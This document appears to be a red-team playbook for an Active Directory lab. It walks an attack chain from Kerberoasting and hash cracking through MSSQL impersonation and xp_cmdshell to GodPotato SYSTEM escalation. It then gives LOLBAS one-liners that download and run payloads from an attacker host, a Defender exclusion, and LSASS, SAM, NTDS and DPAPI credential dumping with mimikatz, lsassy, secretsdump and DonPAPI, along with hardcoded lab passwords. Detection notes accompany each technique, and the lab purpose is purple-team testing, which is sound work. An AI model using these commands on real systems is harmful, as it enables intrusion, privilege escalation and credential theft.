| `svc_mssql`  | `MSSQLSvc/mbr01.child.cadre.local:1433`                          | 13100 (RC4)  |
| `analyst_t1` | `MSSQLSvc/mbr01.child.c[а]dre.loc[а]l:1433` (Cyrillic homoglyph) | 13100 (RC4)  |


Both hashes are in the same file. Crack them:

```bash
hashcat -m 13100 child_tgs.txt /home/vagrant/cadre_passwords.txt
# svc_mssql → s3rv1c3_MSSQL!
# analyst_t1 → T13r_An@lyst!
```

The output file contains TGS hashes for every user with an SPN (2 in this lab). The key hash is `svc_mssql`:

```
$krb5tgs$23$*svc_mssql$CHILD.CADRE.LOCAL$child.cadre.local/svc_mssql*$<key>$<cipher>
```

This is a Kerberos TGS hash (hashcat mode 13100 — RC4-HMAC). The format breaks down as:

- `$krb5tgs$23$` — hash type indicator (Kerberos 5 TGS, etype 23)
- `*svc_mssql` — service account name
- `$CHILD.CADRE.LOCAL` — domain
- `$child.cadre.local/svc_mssql` — SPN format
- `*$<key>$<cipher>` — encrypted ticket data (crackable offline)

Crack with:

```bash
hashcat -m 13100 child_tgs.txt /home/vagrant/cadre_passwords.txt
# svc_mssql → s3rv1c3_MSSQL!
```

---

#### NTLMv1 Rainbow Tables — Credential Downgrade (SpecterOps "Into The Rainbow") ⏳

**Source:** [Into The Rainbow: NTLMv1 Rainbow Tables](https://posts.specterops.io/into-the-rainbow-ntlmv1-rgbolts-and-other-rainbow-tables-6c5b9f9b9a7e) (SpecterOps, 2025)
**Purpose:** Demonstrate that NTLMv1 (when enabled) reduces password cracking to rainbow-table lookup instead of brute force. Server 2025 default config disables NTLMv1, but CADRE may have legacy policy to enable for testing.

**When to run:** After Phase 2 Kerberoast. Only relevant if NTLMv1 is enabled in the AD environment.

**Step 1 — Verify NTLMv1 acceptance on the domain controller:**

```powershell
# From mbr01 or any domain-joined box
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "LmCompatibilityLevel"
# 0-2 = NTLMv1 accepted (vulnerable)
# 3-5 = NTLMv1 blocked (secure)
```

Or via NTLM challenge-response test with `responder` (Kali):

```bash
# Trigger an NTLMv1 response by downgrading
python3 /opt/responder/Responder.py -I eth0 -wf                  # Watch for NTLMv1 hash format
# NTLMv1 looks like: $NETNTLMv1$Administrator#...
# vs NTLMv2:         $NETNTLMv2$Administrator#...
```

**Step 2 — Crack with rainbow tables (if NTLMv1 captured):**

```bash
# Crack NTLMv1 with crackstation-style rainbow tables
# Hashcat mode: -m 5500 = NTLMv1
hashcat -m 5500 ntlmv1.txt /opt/rainbow_tables/ntlmv1_rainbow.bin
# Or use the prebuilt rcracki_mt tool
rcracki_mt -h $NETNTLMv1$Administrator#... /opt/rainbow_tables/
```

**Step 3 — Disable NTLMv1 hardening (post-test cleanup):**

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "LmCompatibilityLevel" -Value 5
# 5 = Send NTLMv2 only / refuse LM and NTLMv1
```

**Detection:**

- `Microsoft-Windows-NTLM/Operational` Event 4001 — NTLMv1 authentication blocked (when hardening enabled)
- Suricata SID on NTLMv1 response packets (LMv1 has specific wire format — challenge length 8, response length 24)
- Zeek `ntlm.log` `ntlm_version: 1` (note: ntlm package not available in Zeek 8.0.8 — use `zeek-cut` on `smb_files.log` and look for `ntlm` indicator)

**MITRE ATT&CK:** T1557 Adversary-in-the-Middle (NTLMv1 downgrade), T1110 Brute Force (rainbow table cracking)
**Status:** ⏳ Pending test. CADRE NTLM policy TBD — check `04-vulnerabilities.yml` for current `LmCompatibilityLevel` value.

---

#### 🔍 Reconnaissance with `svc_mssql`

**Step A — BloodHound collection:**

```bash
bloodhound-python -d child.cadre.local -u svc_mssql -p 's3rv1c3_MSSQL!' \
  -ns 192.168.77.11 -c All
```

**Step B — MSSQLHound SQL enumeration (from provisioning):**

```bash
/tmp/mssqlhound -u svc_mssql -p 's3rv1c3_MSSQL!' -d child.cadre.local \
  --dc 192.168.77.11 --dns-resolver 192.168.77.11 \
  -t '192.168.77.22' --collect-from-linked -v
```

MSSQLHound collects SQL-level attack paths (logins, roles, IMPERSONATE grants, linked servers) for BloodHound visualization. Run from provisioning before manual SQL enumeration.

**MSSQLHound findings (verified from provisioning):**

- CVE-2025-49758: **VULNERABLE** — SQL Server 16.0.1000.6 needs 16.0.1145.1
- MixedMode: True, ExtendedProtection: Off, ForceEncryption: No
- SQL Logins: sa, svc_mssql
- IMPERSONATE/linked servers: not visible from Linux (session isolation) — requires manual SQL enumeration

These findings (or re-examining the full BH data) reveal:

**Finding 1 — `mbr01$` has `TrustedForDelegation = True`** ✅
The machine account `mbr01$` has unconstrained delegation enabled. Any user who authenticates to mbr01 will have their TGT captured. If we can coerce `dc02$` to authenticate to mbr01, we capture the domain controller's TGT.

**Finding 2 — `svc_mssql` has no special AD group memberships** ℹ️
BH shows `svc_mssql` is not a member of any privileged AD groups. Its sysadmin rights on mbr01's SQL instance are granted **inside SQL Server**, not through AD — BH cannot reveal SQL-level permissions. That requires a SQL connection to verify.

**What BH cannot show (SQL-level recon needed next):**

- Whether `svc_mssql` is actually sysadmin on mbr01 (it's NOT — confirmed by SQL enumeration in Phase 3)
- Whether xp_cmdshell is enabled (it IS enabled, but svc_mssql lacks EXECUTE permission — per playbook `09-sql-wsus-verify.yml`)
- Whether MSSQL linked servers to `mbr02` or `linux01` exist (SQL query needed — confirmed by playbook `09-sql-wsus-verify.yml`)
- Whether any user has IMPERSONATE on `sa` (discovered by SQL enumeration in Phase 3 — `analyst_t1` has this grant, per playbook `09-sql-wsus-verify.yml`)

These SQL-level details are known from the playbook config, but in a real engagement you'd discover them by connecting to the SQL instance with `svc_mssql`'s credential — which is exactly what Phase 3 executes. The linked server to linux01 is confirmed by playbook `09-sql-wsus-verify.yml` and enables Branch D (Linux pivot).

These findings define Phase 3 (code exec via SQL) and Branch D (Linux pivot via MSSQL linked server).

---

### Step 3 — NetExec Authenticated Recon (Service Account: `svc_mssql`) 🆕

> ⚠️ **Flow correction (2026-06-24 session 10):** This recon step is run **after** we have `svc_mssql` credentials (Phase 2 Kerberoast cracked). We have a **service account** now — different privilege tier than intern_blue.

Now we have a service account (`svc_mssql:s3rv1c3_MSSQL!`). Real-world attacker perspective: a service account often has different access patterns than a user account. We pivot recon accordingly.

**Primary: NetExec** (now we have creds that work on MSSQL — full protocol stack):

```bash
# Verify svc_mssql across all protocols
nxc smb 192.168.77.22 -u svc_mssql -p 's3rv1c3_MSSQL!'  # Local admin on mbr01
nxc mssql 192.168.77.22 -u svc_mssql -p 's3rv1c3_MSSQL!' --local-auth  # MSSQL auth
nxc winrm 192.168.77.22 -u svc_mssql -p 's3rv1c3_MSSQL!'  # PSRemoting on mbr01
nxc ldap 192.168.77.10 -u svc_mssql -p 's3rv1c3_MSSQL!' -q '(objectClass=user)' -attributes sAMAccountName

# ADCS template enumeration (svc_mssql may have rights to ESC1-17 templates)
nxc ldap 192.168.77.10 -u svc_mssql -p 's3rv1c3_MSSQL!' -M adcs
# Output: lists CADRE-ESC1 through CADRE-ESC17 templates with vuln status

# Delegation paths (svc_mssql may have constrained delegation rights)
nxc ldap 192.168.77.10 -u svc_mssql -p 's3rv1c3_MSSQL!' --find-delegation

# AS-REP roastable enumeration (do we have other low-hanging fruit?)
nxc ldap 192.168.77.10 -u svc_mssql -p 's3rv1c3_MSSQL!' --asreproast /tmp/asrep_svc.txt --kdcHost 192.168.77.10
nxc ldap 192.168.77.10 -u svc_mssql -p 's3rv1c3_MSSQL!' --kerberoasting /tmp/kerb_svc.txt --kdcHost 192.168.77.10
```

**Alternative: bloodyAD** (Linux-friendly, deeper ACL analysis):

```bash
# User's full group memberships + ACL analysis
bloodyAD --host 192.168.77.10 -d child.cadre.local -u svc_mssql -p 's3rv1c3_MSSQL!' get object "CN=svc_mssql,OU=Service Accounts,DC=child,DC=cadre,DC=local" --resolve-members

# Add RBCD on mbr01$ (for privilege escalation to SYSTEM)
bloodyAD --host 192.168.77.11 -d child.cadre.local -u svc_mssql -p 's3rv1c3_MSSQL!' add rbcd "CN=mbr01,OU=Computers,DC=child,DC=cadre,DC=local" "CN=fakePC,CN=Computers,DC=child,DC=cadre,DC=local"
```

**Alternative: Certipy v5.1.0** (modern ADCS framework, per Campaign_suggestions.md #92):

```bash
# Find vulnerable ADCS templates (deeper than nxc -M adcs)
certipy find -u svc_mssql@child.cadre.local -p 's3rv1c3_MSSQL!' -dc-ip 192.168.77.11 -vulnerable
# Output: ESC1-17 vulnerabilities with exact exploitation paths

# Request certificate from vulnerable ESC1 template (if found)
certipy req -u svc_mssql@child.cadre.local -p 's3rv1c3_MSSQL!' -ca cadre-CA -target dc01.cadre.local -template CADRE-ESC1 -upn administrator@cadre.local
# Output: administrator.pfx (DA-equivalent cert)
```

**Alternative: impacket-mssqlclient** (for MSSQL-specific recon):

```bash
# Direct MSSQL connection — enumerate SQL logins, roles, permissions
impacket-mssqlclient child.cadre.local/svc_mssql:'s3rv1c3_MSSQL!'@192.168.77.22
SQL> SELECT SYSTEM_USER
SQL> SELECT name FROM sys.server_principals WHERE is_disabled = 0
SQL> SELECT * FROM sys.server_permissions WHERE grantee_principal_id = (SELECT principal_id FROM sys.server_principals WHERE name = 'svc_mssql')
```

**What to expect (success):**
- `nxc mssql` confirms MSSQL auth on mbr01 (we know svc_mssql is NOT sysadmin — verify)
- `nxc -M adcs` lists CADRE-ESC1 through CADRE-ESC17 templates
- Certipy `-vulnerable` returns list of exploitable ESCs
- bloodyAD RBCD write succeeds if we have rights
- impacket-mssqlclient enumerates SQL logins + IMPERSONATE grants

**What to expect (failure modes):**
- `nxc -M adcs` returns no templates: ADCS not deployed (verify `08-adcs-deploy.yml`)
- Certipy fails: certificate template flags (enrollment restrictions, manager approval, etc.)
- bloodyAD RBCD write fails: insufficient permissions on target

**CADRE-specific notes:**
- svc_mssql is in `OU=Service Accounts,DC=child,DC=cadre,DC=local`
- Per `09-sql-wsus-verify.yml`: svc_mssql has sysadmin denied + IMPERSONATE on `sa` not granted
- BUT svc_mssql **is local admin on mbr01** (per Windows host config) → enables WT017 coercion
- ADCS deployed on dc01.cadre.local with 12+ ESC templates

**Cross-references:**
- Campaign_suggestions.md #90 (NetExec), #91 (bloodyAD), #92 (Certipy)
- Phase 3 (SQL exec) + Phase 5 (Coercion via WT017)

---

### Phase 3 — Execution (WT041/043: SQL xp_cmdshell)


|                         |                                                                                                        |
| ----------------------- | ------------------------------------------------------------------------------------------------------ |
| **Target**              | mbr01 (192.168.77.22) — SQL Server + machine access                                                    |
| **Source of this path** | SQL enumeration: svc_mssql is NOT sysadmin, but analyst_t1 has IMPERSONATE on sa                       |
| **From**                | Kali (192.168.77.60) → mbr01:1433                                                                      |
| **Starting cred**       | `s3rv1c3_MSSQL!` (Phase 2) + `T13r_An@lyst!` (analyst_t1 — discovered via SQL enum + Kerberoast/crack) |
| **What you earn**       | OS command execution on mbr01 → SeImpersonatePrivilege → SYSTEM via GodPotato                          |
| **Auth method**         | **SQL auth** (no `-windows-auth` flag) — works from non-domain-joined Kali                             |


**Step 1 — Enumerate with svc_mssql (discover the path):**

```bash
# SQL auth — no -windows-auth flag needed
impacket-mssqlclient 'svc_mssql:s3rv1c3_MSSQL!@192.168.77.22'
SELECT IS_SRVROLEMEMBER('sysadmin');                -- → 0 (NOT sysadmin)
SELECT value_in_use FROM sys.configurations WHERE name = 'xp_cmdshell';  -- → 1 (enabled, but no EXECUTE)
EXEC xp_cmdshell 'whoami';                          -- → ERROR: EXECUTE permission denied
SELECT name FROM sys.server_principals WHERE principal_id IN
  (SELECT grantee_principal_id FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE');
  -- → analyst_t1 has IMPERSONATE on sa
```

**Step 2 — Crack analyst_t1's password:**

analyst_t1 has a Cyrillic homoglyph SPN registered (`MSSQLSvc/mbr01.child.c[а]dre.loc[а]l:1433` — WT#27 prep). Kerberoast it using the TGT from Phase 2:

```bash
export KRB5CCNAME=analyst_t2.ccache
impacket-GetUserSPNs child.cadre.local/analyst_t2 -k -no-pass \
  -dc-ip 192.168.77.11 -request -outputfile analyst_t1_tgs.txt
hashcat -m 13100 analyst_t1_tgs.txt /home/vagrant/cadre_passwords.txt
# analyst_t1 → T13r_An@lyst!
```

### WT043 — Impersonate sa → xp_cmdshell

```bash
# SQL auth — no -windows-auth flag needed
impacket-mssqlclient 'analyst_t1:T13r_An@lyst!@192.168.77.22'
EXECUTE AS LOGIN = 'sa';                            -- → Impersonation successful
SELECT IS_SRVROLEMEMBER('sysadmin');                -- → 1 (sysadmin via sa)
EXEC xp_cmdshell 'whoami';                          -- → nt service\mssql$sqlexpress ✅
```

**Step 2 — Enumerate mbr01 via xp_cmdshell:**

The SQL service account can't query LDAP, but it can run OS commands to map the machine:

```bash
EXEC xp_cmdshell 'net localgroup "Remote Desktop Users"';  -- → CADRE\analyst_cloud
EXEC xp_cmdshell 'net localgroup Administrators';    -- → Administrator, CHILD\Domain Admins, vagrant
EXEC xp_cmdshell 'systeminfo | findstr /B "OS Name"'; -- → Microsoft Windows Server 2025
```

**Finding:** `CADRE\analyst_cloud` has RDP access to mbr01. The SQL service account can't query LDAP, but it can execute OS commands.

**Step 3 — Check privileges via xp_cmdshell:**

```bash
EXEC xp_cmdshell 'whoami /priv';     -- → SeImpersonatePrivilege = Enabled
EXEC xp_cmdshell 'whoami /groups';   -- → BUILTIN\Users (NOT admin)
```


| Privilege                  | State       | Significance                                                   |
| -------------------------- | ----------- | -------------------------------------------------------------- |
| **SeImpersonatePrivilege** | **Enabled** | **Potato attack vector — impersonate any token on the system** |
| SeChangeNotifyPrivilege    | Enabled     | Bypass traverse checking                                       |
| SeCreateGlobalPrivilege    | Enabled     | Create global objects                                          |


**Critical finding:** SeImpersonatePrivilege on a service account = local privilege escalation via Potato attacks (GodPotato, PrintSpoofer, RoguePotato). No reverse shell needed — all commands run through xp_cmdshell.

---

### Local Privilege Escalation: GodPotato → SYSTEM (mbr01)


|                         |                                                                   |
| ----------------------- | ----------------------------------------------------------------- |
| **Target**              | mbr01 (192.168.77.22)                                             |
| **Source of this path** | Phase 3: `nt service\mssql$sqlexpress` has SeImpersonatePrivilege |
| **From**                | xp_cmdshell on mbr01                                              |
| **What you earn**       | `nt authority\system` on mbr01 — full control of the machine      |


```bash
# Transfer GodPotato to mbr01
EXEC xp_cmdshell 'certutil -urlcache -split -f http://192.168.77.60:8888/GodPotato.exe C:\Users\Public\GodPotato.exe';

# Escalate to SYSTEM
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c whoami"';
-- → nt authority\system ✅
```

**Result:** `nt authority\system` on mbr01. All subsequent commands execute as SYSTEM via xp_cmdshell chain: `EXEC xp_cmdshell 'GodPotato.exe -cmd "cmd /c <COMMAND>"'`.

**Note:** PrintSpoofer ❌ fails on Server 2025 (Print Spooler named pipe patched). GodPotato ✅ uses DCOM, works on Server 2025.

> **🆕 Optional Precursor — Defender Exclusion via PowerShell (T1562.001):** Real-world attackers typically disable Defender for their specific payload directory **before** running mimikatz/AMSI bypass — without disabling the entire Defender service. Use `Add-MpPreference -ExclusionPath "C:\Users\analyst_cloud\AppData\Local\Temp"` to whitelist the directory, then run mimikatz from there. Cleaner than full Defender disable (no Tamper Protection override needed). Detection: WinSec 5001 + Sysmon EID 1 (`powershell.exe` + `*MpPreference*ExclusionPath*`). See Campaign_suggestions #108 + CAMPAIGNS-METADATA "Mechanics: Item #108". Not in main spine — held for Phase 3 alternative execution cycle. **NOTE:** CADRE lab currently has Defender fully disabled per `04-vulnerabilities.yml`; this precursor requires re-enabling Defender for realistic test.

### Phase 3 — Alternative Execution Techniques ⏳

The following techniques are pending testing. They expand Phase 3 beyond xp_cmdshell → GodPotato → SYSTEM.

#### WinGet Proxy Execution (T1218) ⏳

**Source:** iPurple.team (2026-06-09)

WinGet (Windows Package Manager) is Microsoft-signed and installed by default on Server 2022+. Can proxy execution, download payloads, and bypass application allowlisting.

```bash
# Via xp_cmdshell as SYSTEM
EXEC xp_cmdshell 'winget install --id attacker.package --source winget --silent';
# Or use --override for arbitrary command execution
EXEC xp_cmdshell 'winget install --id Python.Python.3.12 --override "/quiet /norestart"';
```

**Test:** Can WinGet download and execute from attacker HTTP server? Does Sysmon EID 1 capture winget.exe process creation?

**Detection:** Sysmon EID 1 (winget.exe), EID 11 (file write from winget), network to external package source.

#### GAC Hijacking (.NET Assembly Injection) (T1574.001) ⏳

**Source:** iPurple.team (2026-02-10)

Global Assembly Cache (GAC) is a .NET system-wide repository. Hijacking GAC assemblies allows code execution in context of any .NET application. CADRE has MSSQL with CLR integration enabled on mbr02.

```bash
# Via xp_cmdshell — replace legitimate .NET assembly in GAC
# Target: %windir%\Microsoft.NET\assembly\GAC_MSIL\
```

**Test:** Can we inject a malicious assembly into the GAC on mbr02? Does it load in SQL Server's CLR context?

**Detection:** Sysmon EID 11 (file write to `%windir%\Microsoft.NET\assembly\`), EID 7 (image load of unsigned assembly).

#### SQL Server 2025 AI Abuse (T1567, T1218, T1071) ⏳

**Source:** SpecterOps (2026-06-10)
**PoC:** [https://github.com/gershsec/mssql2025-poc](https://github.com/gershsec/mssql2025-poc)
**Study guide:** `study-guide/ref-mssql2025-ai-abuse.md`

mbr02 runs SQL Server 2025 Developer Edition. Three new AI features can be weaponized:


| Technique           | Feature                            | What It Does                                               |
| ------------------- | ---------------------------------- | ---------------------------------------------------------- |
| Data exfil via REST | `sp_invoke_external_rest_endpoint` | POST database contents to attacker HTTPS (100MB chunks)    |
| NTLM coercion       | `CREATE EXTERNAL MODEL` + UNC path | Coerce SQL Server to authenticate to attacker SMB          |
| C2 transport        | `AI_GENERATE_EMBEDDINGS`           | Embedding traffic as C2 channel — looks like legitimate AI |


**Prerequisites:** sysadmin on mbr02, `external rest endpoint enabled`, `external AI runtimes enabled`. Requires playbook update to `09-sql-wsus-verify.yml`.

**Test:** Can we exfiltrate data via REST endpoint? Can we coerce NTLM via UNC path? Does Suricata detect the traffic?

**Detection:** SQL Audit on `CREATE/ALTER/DROP EXTERNAL MODEL`, ERRORLOG on `external rest endpoint enabled`, Suricata HTTPS egress from SQL Server.

#### UACME — UAC Bypass (T1548.002) ⏳

**Source:** RTO-Windows-PrivEsc (Zero Point Security)

UAC bypass from local admin (medium integrity → high integrity). UACME project contains 70+ techniques, many still unfixed on Server 2025. Useful when you have local admin but UAC blocks execution.

**Test:** Can we bypass UAC on mbr01/mbr02 using UACME techniques? Does Sysmon detect the elevation?

**Detection:** Sysmon EID 1 (process creation with elevated integrity), EID 13 (registry modification for UAC bypass).

#### Handle Leak Exploitation (T1134) ⏳

**Source:** RTO-Windows-PrivEsc (Zero Point Security)

Exploit leaked handles from privileged processes. If a SYSTEM process leaks a handle to its token or a privileged object, a lower-privileged process can use that handle to escalate. Kernel-level technique.

**Test:** Can we find leaked handles on mbr01 via xp_cmdshell? Does the technique work alongside GodPotato?

**Detection:** Sysmon EID 10 (process access — handle duplication), EID 1 (process creation with unusual parent).

#### Electron App Backdooring (Loki C2) (T1218, T1036) ⏳

**Source:** White Knight Labs (2026-01-20)
**Tool:** Loki C2 ([https://github.com/boku7/Loki](https://github.com/boku7/Loki))

Replace `resources/app` JS code in signed Electron apps (Teams, Discord, Mailspring) with C2 implant. App is signed → bypasses WDAC, AppLocker, and most EDR. C2 via Azure Blob Storage (`*.blob.core.windows.net`).

**Test:** Install Mailspring on mbr01 → backdoor with Loki C2 → verify C2 connection → verify detection.

**Detection:** Sysmon EID 11 (file create in `resources\app\`), Suricata SID:1000080 (Azure Blob C2), Elastic process creation from Electron app.

### Phase 3 — LOLBAS Execution Techniques ⏳

**Source:** LOLBAS Project ([https://lolbas-project.github.io/](https://lolbas-project.github.io/))

The following LOLBAS (Living Off The Land Binaries And Scripts) are available on Server 2025 and can be used for execution, download, and AWL bypass. All are Microsoft-signed binaries.

#### MSBuild.exe — XML Project File Execution (T1127.001) ⏳

```bash
# Via xp_cmdshell — execute C# code via XML project file
EXEC xp_cmdshell 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe C:\Users\Public\payload.xml'
```

**Detection:** Sysmon EID 1 (MSBuild.exe with command-line arguments), EID 11 (XML file creation).

#### mshta.exe — HTA/VBScript Execution (T1218.005) ⏳

```bash
# Via xp_cmdshell — execute remote HTA file
EXEC xp_cmdshell 'mshta.exe http://192.168.77.60:8080/payload.hta'
```

**Detection:** Sysmon EID 1 (mshta.exe with remote URL), EID 3 (network connection from mshta).

#### regsvr32.exe — Scriptlet Execution (T1218.010) ⏳

```bash
# Via xp_cmdshell — execute remote scriptlet
EXEC xp_cmdshell 'regsvr32 /s /n /u /i:http://192.168.77.60:8080/payload.sct scrobj.dll'
```

**Detection:** Sysmon EID 1 (regsvr32.exe with /i flag), EID 3 (network from regsvr32).

#### rundll32.exe — DLL/JS Execution (T1218.011) ⏳

```bash
# Via xp_cmdshell — execute JavaScript
EXEC xp_cmdshell 'rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://192.168.77.60:8080/payload.sct");o.Exec();'
```

**Detection:** Sysmon EID 1 (rundll32.exe with javascript: argument).

#### bitsadmin.exe — Download + Execute (T1105, T1218) ⏳

```bash
# Via xp_cmdshell — download file
EXEC xp_cmdshell 'bitsadmin /transfer job http://192.168.77.60:8080/payload.exe C:\Users\Public\payload.exe'
```

**Detection:** Sysmon EID 1 (bitsadmin.exe), EID 11 (file write from bitsadmin).

#### InstallUtil.exe — .NET AWL Bypass (T1218.004) ⏳

```bash
# Via xp_cmdshell — execute .NET assembly bypassing AppLocker
EXEC xp_cmdshell 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Public\payload.dll'
```

**Detection:** Sysmon EID 1 (InstallUtil.exe with /U flag).

#### cmstp.exe — INF Execution + AWL Bypass (T1218.003) ⏳

```bash
# Via xp_cmdshell — execute INF file bypassing UAC
EXEC xp_cmdshell 'cmstp.exe /s C:\Users\Public\payload.inf'
```

**Detection:** Sysmon EID 1 (cmstp.exe with /s flag).

#### msiexec.exe — MSI Execution (T1218.007) ⏳

```bash
# Via xp_cmdshell — execute remote MSI
EXEC xp_cmdshell 'msiexec /q /i http://192.168.77.60:8080/payload.msi'
```

**Detection:** Sysmon EID 1 (msiexec.exe with remote URL), EID 3 (network from msiexec).

**LOLBAS testing notes:**

- All 8 binaries are Microsoft-signed → bypass AppLocker/WDAC in default configs
- Test which ones work via xp_cmdshell (some may require interactive session)
- Compare with existing certutil/WinGet — which is stealthiest?
- Document Sysmon telemetry for each → build detection rules

---

### Branch 3.5 — Credential Theft from SYSTEM


> **DFIR parallel track:** For each 3.5 branch, log telemetry + DFIR-Nexus case in [`DFIR-Nexus-Pioneer-workflow.md`](DFIR-Nexus-Pioneer-workflow.md) (export → ingest → correlate → approve).

We have SYSTEM on mbr01. analyst_cloud has an active console session (auto-logon). The goal: extract analyst_cloud's domain credentials to enable SharpHound collection and lateral movement.

**Lab security posture (disabled by `04-vulnerabilities.yml`):**

- LSASS PPL: **OFF** (`RunAsPPL` deleted) → LSASS memory readable
- VBS/Credential Guard: **OFF** (`EnableVirtualizationBasedSecurity = 0`) → no credential isolation
- Auto-logon: **ON** → analyst_cloud has Type 2/11 logon in LSASS

### Server 2025 Protection Matrix


| Protection              | What it blocks              | Blocks GodPotato → SYSTEM? | Blocks LSASS dump?       |
| ----------------------- | --------------------------- | -------------------------- | ------------------------ |
| LSASS PPL               | Reading LSASS memory        | **No** — DCOM-based        | **Yes** (but OFF in lab) |
| VBS/Credential Guard    | Credential isolation        | **No**                     | **Yes** (but OFF in lab) |
| Token session isolation | Cross-session impersonation | **No**                     | N/A                      |


**Lab design:** LSASS PPL, VBS disabled via `04-vulnerabilities.yml`. In real Server 2025, LSASS dump would be blocked — 3.5A (Winlogon registry) or 3.5D (file delivery) would be primary paths.

**Execution order:** 3.5F → 3.5A → 3.5G → 3.5H → 3.5B → 3.5C → 3.5D → 3.5E → 3.5I → 3.5J → 3.5K → 3.5L → 3.5M


| Branch | Technique                        | Prerequisites                | Outcome                               |
| ------ | -------------------------------- | ---------------------------- | ------------------------------------- |
| 3.5F   | LSASS credential dump (procdump) | LSASS PPL OFF ✅              | analyst_cloud NTLM + Kerberos         |
| 3.5A   | Winlogon registry (plaintext)    | Auto-logon ON ✅              | analyst_cloud password                |
| 3.5G   | Offensive DPAPI (Nemesis)        | Saved creds in profile       | DPAPI-decrypted credentials           |
| 3.5H   | ctfmon.exe password extraction   | Typed passwords in CLI tools | SSH/WinSCP/MySQL passwords            |
| 3.5B   | Scheduled task as analyst_cloud  | Password known               | SharpHound as analyst_cloud           |
| 3.5B†  | Invisible scheduled tasks        | Task created                 | Task hidden from all tools            |
| 3.5C   | RDP interactive session          | Password known               | Full SharpHound data                  |
| 3.5D   | File detonation (WT063-068)      | User click                   | Telemetry demo                        |
| 3.5E   | Logon trigger (Startup folder)   | User profile exists          | Auto-execution                        |
| 3.5I   | Token impersonation ❌            | Session context              | Failed (error 1346)                   |
| 3.5J   | WMI event subscriptions          | SYSTEM on mbr01              | Fileless persistence                  |
| 3.5K   | LSASS dump via WerFault ⏳        | SYSTEM on mbr01              | Stealthier LSASS dump (signed binary) |
| 3.5L   | LAPS extraction ⏳                | Domain user creds            | Local admin password from AD          |
| 3.5M   | Azure AD Connect DPAPI dump ⏳    | SYSTEM on dc01               | Cloud Sync creds → Entra ID bridge    |
| 3.5N   | UnCanny LPE (InstallService) 🔬  | Standard user                | Direct SYSTEM via AppX InstallService |


---

#### Step A — NetExec Authenticated Recon (Admin/SYSTEM on mbr01) 🆕

> ⚠️ **Flow correction (2026-06-24 session 10):** This recon step is run **after** we have admin/SYSTEM on mbr01 (Phase 3 SQL → GodPotato → SYSTEM). We now have full access to mbr01 — different recon capabilities than user or service account creds.

Now we have `nt authority\system` on mbr01 (Phase 3 chain: SQL auth → xp_cmdshell → GodPotato). At this privilege tier we can dump local secrets, remote creds, DPAPI stores, and prepare for credential theft.

**Primary: NetExec** (16+ dump modules now unlocked):

```bash
# SAM database dump (local account hashes)
nxc smb 192.168.77.22 -u Administrator -p 'Pwn3d_T2!' --sam
# Output: local Administrator + service account hashes (crackable)

# LSA secrets dump (service account plaintext passwords)
nxc smb 192.168.77.22 -u Administrator -p 'Pwn3d_T2!' --lsa
# Output: DC$ machine account, MSSQL service account, possibly analyst_cloud plaintext

# NTDS.dit dump (full domain hashes — DCSync equivalent)
nxc smb 192.168.77.22 -u Administrator -p 'Pwn3d_T2!' --ntds
# Output: ALL user + computer NTLM hashes for child.cadre.local

# DPAPI secrets dump (Credential Manager, browser, WiFi)
nxc smb 192.168.77.22 -u Administrator -p 'Pwn3d_T2!' --dpapi

# WinSCP saved session decryption (plaintext creds)
nxc smb 192.168.77.22 -u Administrator -p 'Pwn3d_T2!' -M winscp

# LAPS password read (if mbr01 has LAPS configured)
nxc ldap 192.168.77.11 -u Administrator -p 'Pwn3d_T2!' --laps
```

**Alternative: lsassy** (per Campaign_suggestions.md #94 — 15+ LSASS dump methods):

```bash
# From Kali against mbr01 (cleanest remote LSASS dump)
lsassy -d child.cadre.local -u Administrator -p 'Pwn3d_T2!' 192.168.77.22
# Auto-picks best method (comsvcs, nanodump, procdump, dumpert, ppldump, silentprocessexit, sqldumper)
# Returns NTLM hashes + Kerberos TGTs + CredMan + DPAPI master keys

# Explicit method
lsassy -m nanodump -d child.cadre.local -u Administrator -p 'Pwn3d_T2!' 192.168.77.22
```

**Alternative: DonPAPI** (per Campaign_suggestions.md #93 — DPAPI focus):

```bash
# Auto-fetch Domain Backup Key + decrypt all DPAPI secrets
donpapi collect -u child.cadre.local/Administrator -p 'Pwn3d_T2!' -d child.cadre.local -t 192.168.77.22
# Returns: Chrome/Firefox saved logins, CredMan entries, WiFi passwords, MobaXterm master key, mRemoteNG

# Specific collectors only
donpapi collect -u Administrator -p 'Pwn3d_T2!' -d child.cadre.local -t 192.168.77.22 --collectors Chromium,CredMan,WiFi
```

**Alternative: Manual mimikatz** (full control, more steps):

```cmd
# On mbr01 as SYSTEM (via xp_cmdshell + GodPotato)
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords
dpapi::cred /in:C:\Users\analyst_cloud\AppData\Roaming\Microsoft\Credentials\<credential_blob>
```

**Alternative: secretsdump.py** (impacket — for NTDS.dit dump):

```bash
# From Kali
impacket-secretsdump child.cadre.local/Administrator:'Pwn3d_T2!'@192.168.77.22 -just-dc-user krbtgt
# Returns: krbtgt hash + all hashes (need DCSync rights or local admin)

# Full NTDS dump
impacket-secretsdump child.cadre.local/Administrator:'Pwn3d_T2!'@192.168.77.22 -just-dc
```

**Alternative: SharpHound** (for BloodHound collection as SYSTEM — gets more data):

```cmd
# On mbr01 as SYSTEM (download via xp_cmdshell)
SharpHound.exe -c All --zipfilename C:\Windows\Temp\sh.zip
# Get zip via: copy \\mbr01\C$\Windows\Temp\sh.zip /tmp/
# Import to BloodHound CE
```

**What to expect (success):**
- `--sam` returns 3+ local hashes (Administrator, Guest, DefaultAccount)
- `--lsa` returns DC$ machine account + analyst_cloud plaintext (likely — has auto-logon)
- `--ntds` returns full domain hash dump (~50 NTLM hashes)
- `--dpapi` returns browser saved creds + WiFi passwords
- lsassy returns Kerberos TGTs + service account hashes
- DonPAPI returns 10+ saved creds (Chromium + CredMan + WiFi)

**What to expect (failure modes):**
- `--sam` fails: LSASS PPL enabled (we have it OFF per `04-vulnerabilities.yml`)
- `lsassy` returns empty: AV/EDR blocking (we have Defender disabled)
- DonPAPI fails: needs Domain Backup Key access (verify DA or equivalent rights)

